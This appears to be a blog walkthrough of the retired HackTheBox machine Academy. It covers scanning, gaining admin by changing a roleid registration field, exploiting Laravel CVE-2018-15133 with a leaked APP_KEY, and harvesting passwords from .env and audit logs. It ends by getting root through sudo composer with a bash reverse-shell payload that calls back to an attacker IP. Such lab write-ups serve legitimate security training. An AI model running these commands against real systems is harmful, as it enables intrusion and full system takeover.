 ```yaml
---
title: HackTheBox - Academy Writeup
subtitle: Here's my writeup for the RETIRED machine Academy, Which is an easy Linux machine!
date: '2021-04-25'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Easy']
tags: ['HackThebox', 'easy']
image: /assets/img/htb-academy/featured.jpg
render_with_liquid: false
---
```



# Information Gathering

## Nmap scan 

```
sudo nmap -sC -sV -T5 -oA nmap -O -A -v 10.10.10.215
```

![nmap sc](/assets/img/htb-academy/nmap.png)

As we see we have 2 ports open <br/>
SSH on port 22 running OpenSSH 8.2p1 <br/>
http on port 80 running httpd 2.4.41 <br/>

we notice as well the academy.htb domain, which we should add to /etc/hosts.



## Gobuster scan 


```
gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://academy.htb -x php
```

![gob sc](/assets/img/htb-academy/gob.png)


# Initial Foothold


## Identifying the exploit

So basically the first thing that tried was sql injection on <b> admin.php </b> but that didn't give me any results. as we don't have any potential users let's move on and dig further. <br/>

Let's create an account and see if we can find any usernames and intercept it with burp

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://academy.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://academy.htb/register.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sdloh07q837vauvt0oqevack4o
Connection: close
uid=elleuch&password=elleuch&confirm=elleuch&roleid=0
```
We can notice the <b>roleid</b>	parameter which is set to 0. we can assume that's assigning a role to the user we're creating. Which basically can be a normal user ( roleid=0 ) or a privileged user ( roleid=1 ).

Let's change change 0 to 1 and forward the request and create our privileged user and try to login to <b>/admin.php</b> 

![planner sc](/assets/img/htb-academy/planner.png)

As we see above the planner leaks to us a subdomain <b>dev-staging-01.academy.htb</b> <br/>
Let's add it to /etc/hosts and see what we get

![laravel sc](/assets/img/htb-academy/laravel.png)

Errors! That sounds promosing! Scrolling down we can see something really interesting
```
APP_KEY	 "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```
We have the APP_KEY! We can abuse <b>Laravel Unserialize Vulnerability CVE-2018-15133 </b> <br/>
For this exploit we'll be using this script, a pretty easy syntax.
```
https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py
```

![ft sc](/assets/img/htb-academy/foothold.png)

And voilà we're on the box

# User Privesc

Now let's start enumarating,We already know that the webserver is running PHP Laravel. </br>
The first thing we should look at is the <b>.env</b> file. </br>

![env sc](/assets/img/htb-academy/env.png)

And we get a password! <br />
`mySup3rP4s5w0rd!!` <br/>
Let's see if it belongs to any existing user

![users sc](/assets/img/htb-academy/users.png)

After manually trying to switch to these users, it turns out to be cry0l1t3's password

![logincry sc](/assets/img/htb-academy/logincry.png)

Our user is in the <b>adm</b> group! So basically we can read logs! And also we can read the audit log! We can grab some juicy informations from it

![mrb3 sc](/assets/img/htb-academy/mrb3.png)

`data=6D7262336E5F41634064336D79210A`

Seems we got a password! But it's hex encoded! Let's decode it

![pwsc sc](/assets/img/htb-academy/pw.png)


`mrb3n_Ac@d3my!`

Seems like it's mrb3n's password! 

# Root Privesc

Mrb3n can execute <b>/usr/bin/composer</b> as root!

![sudo sc](/assets/img/htb-academy/sudo.png)

Going through the docs of composer we can find out that we can execute a custom script using composer! we need to create a composer.json first in any folder we want!
```json
{ 
"scripts":{"shell":"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/4444 0>&1'"}
}
```

We set our listener 


```
nc -lvnp 4444 
```

And execute 

```
sudo /usr/bin/composer --working-dir=fake run-script shell
```

![root sc](/assets/img/htb-academy/root.png)


And we rooted the box! <br/>
`uid=0(root) gid=0(root) groups=0(root)`



